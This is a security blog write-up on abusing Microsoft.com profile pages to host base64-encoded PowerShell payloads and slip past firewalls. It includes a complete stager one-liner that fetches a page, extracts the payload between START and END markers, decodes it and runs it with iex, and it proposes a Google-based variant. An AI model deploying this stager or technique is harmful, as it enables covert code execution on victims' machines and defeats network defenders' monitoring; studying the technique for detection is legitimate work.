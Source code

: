 ```yaml
---
layout: post
title: "Abuse Microsoft.com Domains to Exec Stagers + Evade Firewalls"
excerpt: "Microsoft.com is one of the most extensive domains on the internet with thousands of registered subdomains. Windows 10 will ping these subdomains hundreds of times an hour, making it challenging to firewall and monitor all of the requests made by the operating system. An attacker can use these subdomains to serve payloads to evade network firewalls."
categories: [publication,write-up]
modified: 2019-07-01
---
```


While trying to share an article on social media recently, [Twitter prevented me](https://twitter.com/tokyoneon_/status/1111695663144882176) from entering a simple PowerShell command into the tweet. Twitter continued to display an error message stating the tweet couldn't be submitted.

It occurred to me that hackers had been tweeting PowerShell commands in the past with the intent of using the service as a payload-hosting system. This got me thinking about other popular domains that could be used similarly, as well as what potential benefits the activity could have for an attack.


### Why Use Microsoft Domains Instead of a Dedicated VPS?

Microsoft.com is one of the most extensive domains on the internet with thousands of registered subdomains. Windows 10 will ping these subdomains hundreds of times an hour, making it challenging to firewall and monitor all of the requests made by the operating system. An attacker can use these subdomains to serve payloads to evade network firewalls.

Even with hardened settings, Windows 10 will ping (or "phone home") Microsoft servers thousands of times. Some of the data transmitting to and from Microsoft domains is required to maintain system updates and other essential aspects of the operating system. Below is an example packet capture of a Windows 10 system.

![](/img/use-microsoft-com-domains-bypass-firewalls-execute-payloads.w1456.jpg)

Some Microsoft domains may appear with unusual subdomains (e.g., "geover-prod.do.dsp.mp.microsoft.com"). These are generally for dedicated services, resources, and applications running in the background. That means that some strict firewalls and IDSs will allow these domains with wildcards (e.g., *.microsoft.com) to pass through the network. The Microsoft domains may also be ignored entirely by some system administrators as they're not as likely to be abused by malicious actors.

An attacker can use this knowledge to their advantage. Take the below Wireshark capture for example. Do you notice anything unusual?

![](/img/use-microsoft-com-domains-bypass-firewalls-execute-payloads.w14562.jpg)

The **social.msdn.microsoft.com** domain was just used to download the attacker's payload. To the naked eye — or anyone performing deep packet inspection (DPI), this traffic looks mostly benign. The domain belongs to Microsoft's community forum for developers and every-day Windows 10 users alike. The requests (TCP/TLS) are encrypted so inspecting the packets further will not show the full path to the webpage or the contents (i.e., the payload). Administrators observing this traffic on the network will likely believe the target user is merely browsing the Microsoft forum.

Navigating to the page set up by the attacker, we can see the payload embedded into the "About Me" section.

![](/img/use-microsoft-com-domains-bypass-firewalls-execute-payloads.w14563.jpg)

Many Microsoft-owned domains can be used for this kind of activity such as Microsoft Answers, Office Forms, OneDrive, and even the comment sections of other Microsoft news outlets. All of these legitimate Microsoft domains allow user input that can be abused to host payloads.

### Create the Payload

At this point, we're defining the final bit of code being executed on the target's computer. To keep things simple, the payload will create an arbitrary file in the `Documents\` folder called `pwn_sauce`. Take note of the triple backslash (`\\\`). In Bash (Kali terminal), this is required to pass PowerShell variables in the payload as a literal string.

```powershell
powershell -ep bypass /w 1 /C New-Item -ItemType file 'C:\Users\\\$env:USERNAME\Documents\pwn_sauce'
```

Complex PowerShell payloads containing special characters must be base64 encoded. Otherwise, Microsoft's server will detect and sanitize special characters (e.g., `<` `>` `&`). Base64 encoding the payload is a quick way around that issue.

With extended commands, base64 will likely produce multiple encoded lines. When using base64 strings with PowerShell, they need to appear on one single line. Concatenate the numerous lines into a single string by piping the `base64` output into `tr` to delete (`-d`) new lines.

```bash
$ printf '%s' "PAYLOAD GOES HERE" | base64 | tr -d '\n'
cG93ZXJzaGVsbCAtZXAgYnlwYXNzIC93IDEgL0MgTmV3LUl0ZW0gLUl0ZW1UeXBlIGZpbGUgJ0M6XFVzZXJzXCRlbnY6VVNFUk5BTUVcRG9jdW1lbnRzXHB3bl9zYXVjZSc=
```

### Create a Microsoft Account

A Microsoft account is required to create and modify the profile page hosting the payload. Navigate to the Live login page to start the process. After signing in, navigate to the user profile page at **social.msdn.microsoft.com/Profile/USERNAME** and click the "Edit My Profile" button to update the About Me section.

### Host the Payload on the Microsoft Website

The About Me section on the Microsoft profile page can hold 1,024 characters, which you should be mindful of when creating payloads — especially when encoding with base64. It's possible to host payloads in plaintext, but the PowerShell stager will need to include some code to detect and convert sanitized HTML strings back in plaintext format. While possible, this is beyond the scope of the article.

![](/img/2.jpg)

Paste the desired payload into the About Me section between the words "START" and "END." It's crucial to the stager in the next step, which analyzes all of the HTML on the Microsoft page and extracts the encoded string between the identifiers. Click the "Save" button at the bottom of the page when done.

### Create the Stager

The following PowerShell one-liner was designed to download the Microsoft user's profile page, extract the encoded payload, decode it, then execute it.

```powershell
$wro = iwr -Uri https://social.msdn.microsoft.com/Profile/USERNAME -UseBasicParsing;$r = [Regex]::new("(?<=START)(.*)(?=END)");$m = $r.Match($wro.rawcontent);if($m.Success){ $p = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($m.value));iex $p }
```

There are multiple commands chained together which are separated by semicolons.

The `Invoke-WebRequest` (iwr) cmdlet is used to fetch the profile page with the `-UseBasicParsing` argument. All of this is set into the `$wro` (WebResponseObject) variable. While deprecated, the `UseBasicParsing` parameter will enable basic parsing. I found this parameter needed to be manually set for the request to succeed.

```powershell
$wro = iwr -Uri https://social.msdn.microsoft.com/Profile/USERNAME -UseBasicParsing;
```

PowerShell will use regex patterns to locate the payload in the HTML. There are other ways of extracting content from webpages, but this method felt universal. Payloads encased in "START" and "END" embedded into any website would get filtered by this command.

```powershell
$r = Regex::new("(?<=START)(.*)(?=END)");
```

The variable `$m` is created for any text matching the regex patterns.

```powershell
$m = $r.Match($wro.rawcontent);
```

If any patterns are found in the `$m` variable, decode (`FromBase64String`) the string and set it into the `$p` variable.

```powershell
if($m.Success){ $p = System.Text.Encoding::UTF8.GetString(System.Convert::FromBase64String($m.value)); ...}
```

Use `Invoke-Expression` (iex) to execute the `$p` variable. In this case, `$p` is the PowerShell payload. 

```powershell
iex $p
```

To test it, the `iex` command is substituted with `echo`, as seen below.

![](/img/3.jpg)


### Conclusion

The featured stager was designed for and tested with [keystroke injection attacks](/0x03). However, there are plenty of other ways to execute the code on a target machine.

Using Google.com to host payloads is one improvement to the attack. Like ***.microsoft.com**, most firewalls will not block GET requests made directly to <b>*.google.com</b>.

Hosting payloads directly on Google is trickier. Google is a search engine, so the attacker would need to create a website that Google can index. Then, they'd need to create a web path containing the payload as the filename. The payload would later be acquired by identifying the href, not the body of an About Me section (example below). The target's computer would never actually query the attacker's website. The payload could be acquired entirely using the Google search engine. Notice the "START" and "END" identifiers in the URI.

![](/img/4.jpg)


---

{{ site.wht_credit }}
